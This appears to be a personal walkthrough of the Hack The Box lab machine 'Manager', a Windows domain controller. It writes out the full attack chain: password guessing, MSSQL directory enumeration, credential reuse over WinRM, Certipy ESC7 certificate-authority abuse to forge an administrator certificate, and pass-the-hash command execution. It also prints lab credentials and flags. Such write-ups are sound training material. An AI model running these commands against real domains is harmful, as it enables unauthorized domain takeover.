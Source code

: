 # Manager

This is my Walkthrough on [Manager](https://app.hackthebox.com/machines/Manager) - The Hack The Box Seasonal Machine

## Initial Scan

```nmap
sudo nmap -T4 -Pn -sV -sC -v 10.129.74.218 -oA Manager
```

\*\*Had to shutdown to IP changed to `10.129.74.218` for some later things

<figure><img src="../../.gitbook/assets/image (870).png" alt=""><figcaption></figcaption></figure>

```nmap
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: Manager
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-10-24 03:15:32Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-10-24T03:16:52+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Issuer: commonName=manager-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-07-30T13:51:28
| Not valid after:  2024-07-29T13:51:28
| MD5:   8f4d:67bc:2117:e4d5:43e9:76bd:1212:b562
|_SHA-1: 6779:9506:0167:b030:ce92:6a31:f81c:0800:1c0e:29fb
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-10-24T03:16:52+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Issuer: commonName=manager-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-07-30T13:51:28
| Not valid after:  2024-07-29T13:51:28
| MD5:   8f4d:67bc:2117:e4d5:43e9:76bd:1212:b562
|_SHA-1: 6779:9506:0167:b030:ce92:6a31:f81c:0800:1c0e:29fb
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-10-24T03:13:49
| Not valid after:  2053-10-24T03:13:49
| MD5:   9e80:5b78:fbe6:b024:994f:f4b5:620b:15b2
|_SHA-1: dcd7:2c60:befc:7812:2a99:38fa:1637:2748:43a0:0698
| ms-sql-ntlm-info: 
|   10.129.74.218:1433: 
|     Target_Name: MANAGER
|     NetBIOS_Domain_Name: MANAGER
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: manager.htb
|     DNS_Computer_Name: dc01.manager.htb
|     DNS_Tree_Name: manager.htb
|_    Product_Version: 10.0.17763
| ms-sql-info: 
|   10.129.74.218:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2023-10-24T03:16:52+00:00; +7h00m00s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Issuer: commonName=manager-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-07-30T13:51:28
| Not valid after:  2024-07-29T13:51:28
| MD5:   8f4d:67bc:2117:e4d5:43e9:76bd:1212:b562
|_SHA-1: 6779:9506:0167:b030:ce92:6a31:f81c:0800:1c0e:29fb
|_ssl-date: 2023-10-24T03:16:52+00:00; +7h00m00s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Issuer: commonName=manager-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-07-30T13:51:28
| Not valid after:  2024-07-29T13:51:28
| MD5:   8f4d:67bc:2117:e4d5:43e9:76bd:1212:b562
|_SHA-1: 6779:9506:0167:b030:ce92:6a31:f81c:0800:1c0e:29fb
|_ssl-date: 2023-10-24T03:16:52+00:00; +7h00m00s from scanner time.
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Findings

### HTTP

Not a lot to the website, no logon forms or any hidden directories

<figure><img src="../../.gitbook/assets/image (871).png" alt=""><figcaption></figcaption></figure>

#### Dirbuster/Gobuster

<figure><img src="../../.gitbook/assets/image (872).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (873).png" alt=""><figcaption></figcaption></figure>

#### SMB

<figure><img src="../../.gitbook/assets/image (874).png" alt=""><figcaption></figcaption></figure>

Directories are empty, C$ and ADMIN$ we don't have access by default.

BUT we were able to find the users with CrackMapExec and trying various passwords(username as pass but upper and lower), we find a valid user/password combination: `Operator:operator`

&#x20;&#x20;

<figure><img src="../../.gitbook/assets/image (875).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (876).png" alt=""><figcaption></figcaption></figure>

### RPC

```bash
rpcclient -U "" 10.129.74.218
```

Not much found here but we did find the SID of the Administrator account

```
rpcclient $> lookupnames Administrator
Administrator S-1-5-21-4078382237-1492182817-2568127209-500 (User: 1
```

### SQL

#### Impacket-mssqlclient

Were able to log in with `Operator:operator`&#x20;

<figure><img src="../../.gitbook/assets/image (877).png" alt=""><figcaption></figcaption></figure>

Using xp\_dirtree to look around in various directories we eventually found:&#x20;

<figure><img src="../../.gitbook/assets/image (878).png" alt=""><figcaption></figcaption></figure>

Grabbed the .zip file

```
http://10.129.75.78/website-backup-27-07-23-old.zip
```

<figure><img src="../../.gitbook/assets/image (879).png" alt=""><figcaption></figcaption></figure>

#### .old-conf.xml

<figure><img src="../../.gitbook/assets/image (880).png" alt=""><figcaption></figcaption></figure>

More user creds! We found `Raven@manager.htb:R4v3nBe5tD3veloP3r!123`

### winrm

```bash
evil-winrm -i 10.129.75.78 -u Raven -p 'R4v3nBe5tD3veloP3r!123'
```

<figure><img src="../../.gitbook/assets/image (881).png" alt=""><figcaption></figcaption></figure>

User flag was found under user.txt on Ravens desktop: `5ba4881af698a98cbf340a8861580333`

## Priv Esc

Looked around at what permissions Raven had

<figure><img src="../../.gitbook/assets/image (882).png" alt=""><figcaption></figcaption></figure>

### WinPEAS

<figure><img src="../../.gitbook/assets/image (883).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (884).png" alt=""><figcaption></figcaption></figure>

Nothing of super note was found with WinPeas unfortunately

### certipy

We checked with Certipy due it being Active Directory and on a DC. So we want to enumerate certificates.

<figure><img src="../../.gitbook/assets/image (885).png" alt=""><figcaption></figcaption></figure>

```bash
certipy-ad find -vulnerable -u raven@dc01.manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.129.139.52 -stdout
```

We see ESC7 is vulnerable - [On the certipy github on ESC7](https://github.com/ly4k/Certipy#esc7). Upgrade Ravens account to have additional permissions. These had to be done in qucik succession as the machine does reset itself every few minutes.

```bash
certipy-ad ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
```

<figure><img src="../../.gitbook/assets/image (886).png" alt=""><figcaption></figcaption></figure>

<pre class="language-bash"><code class="lang-bash"><strong>certipy-ad ca -ca 'manager-DC01-CA' -enable-template SubCA -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
</strong></code></pre>

```bash
certipy-ad req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target dc01.manager.htb -template SubCA -upn administrator@manager.htb
```

<figure><img src="../../.gitbook/assets/image (888).png" alt=""><figcaption></figcaption></figure>

```bash
certipy-ad ca -ca 'manager-DC01-CA' -issue-request 17 -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
```

<figure><img src="../../.gitbook/assets/image (890).png" alt=""><figcaption></figcaption></figure>

```bash
certipy-ad req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target dc01.manager.htb -retrieve 17
```

<figure><img src="../../.gitbook/assets/image (891).png" alt=""><figcaption></figcaption></figure>

We now have our administrator.pfx and we can use this.

```bash
certipy-ad auth -pfx administrator.pfx -username 'administrator' -domain 'manager.htb' -dc-ip 10.129.139.52
```

<figure><img src="../../.gitbook/assets/image (892).png" alt=""><figcaption></figcaption></figure>

We need to sync our clock with the DC. We we can use rdate(need to install it) to get the time of the DC Server

```bash
sudo apt install -y rdate
sudo rdate -n dc01.manager.htb
```

<figure><img src="../../.gitbook/assets/image (893).png" alt=""><figcaption></figcaption></figure>

Then use faketime to sync the clock

```bash
sudo apt install -y rdate
sudo faketime -f '(date/time of dc)'/bin/date
```

<figure><img src="../../.gitbook/assets/image (894).png" alt=""><figcaption></figcaption></figure>

Re-run our certipy command and get the hash of the administrator!&#x20;

<figure><img src="../../.gitbook/assets/image (895).png" alt=""><figcaption></figcaption></figure>

Administrator NTLM hash: `aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef`

Rather than try to crack it, we can use CrackMapExec to pass the hash and execute commands

```bash
crackmapexec smb 10.129.139.52 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef -x 'dir C:\Users\Administrator\Desktop'
```

```bash
crackmapexec smb 10.129.139.52 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef -x 'type C:\Users\Administrator\Desktop\root.txt'
```

<figure><img src="../../.gitbook/assets/image (897).png" alt=""><figcaption></figcaption></figure>

Root.txt: `35891a19f5ad0f5c2fced375b3c7142e`
